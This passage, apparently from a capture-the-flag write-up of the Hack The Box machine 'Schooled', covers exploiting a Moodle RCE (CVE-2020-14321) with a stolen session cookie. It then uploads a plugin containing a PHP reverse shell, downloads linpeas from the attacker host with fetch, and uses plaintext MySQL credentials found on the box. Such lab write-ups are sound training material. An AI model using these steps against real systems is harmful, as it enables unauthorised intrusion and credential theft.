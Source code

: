 Now we can use the cookie value we snagged earlier. We'll also supply a basic command to verify the PoC works.

Command:
`python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle --cookie skntaegbc0s8f2ar55tcgsumqv`

Once we run our PoC, we can navigate to our enrolled users and fine Lianne Carter. We then login as this user.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-30.png" >}}

Now we can upload our own `PHP Shell` to call back to our system. The referenced RCE.zip is in linked in the repo - https://github.com/HoangKien1020/Moodle_RCE.
We need to modify this file with a reverse shell of your choice. I tend to use the basic Pentest Monkey shell.

So we unzip the `rce.zip`. Then we modify the contents of `rce/lang/en/block_rce.php` to have the contents of our prefered shell. Now we need to upload it. We'll head over to Site Administration > Plugins.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-33.png" >}}

Now we can 'Install plugins'. We can then upload the file from our local machine and install it.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-31.png" >}}

We click continue once it's installed. Before we click through the pre-requisite checks, we want to be sure we have a listener open for our shell. Once we do, click continue and you should see the listener light up.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-32.png" >}}

It doesn't look like `Python` is installed so we can't stabalize the shell that way. Fine. We'll atleast start some internal enumeration. We transfer over `linpeas.sh` using `fetch`.

Command:
`fetch -o /tmp/x.sh http://10.10.14.70/linpeas.sh`

We then make it executable, then run it.

We pretty quickly see a set of credentials:

{{< figure src="__GHOST_URL__/content/images/2021/07/image-34.png" >}}

Credentials: `moodle`|`PlaybookMaster2020`, these creds are for the `mysql` instance. So now, we can try to access the databases here and see what we can find. I found that maintaining a continuous connection inside the mysql instance was causing some flakey connections, so we'll issue the commands outside of the instance.

Command:
`
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'`

{{< figure src="__GHOST_URL__/content/images/2021/07/image-35.png" >}}

Now we need to show the tables in the `moodle` database.

Command:
`/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show tables from moodle;'`
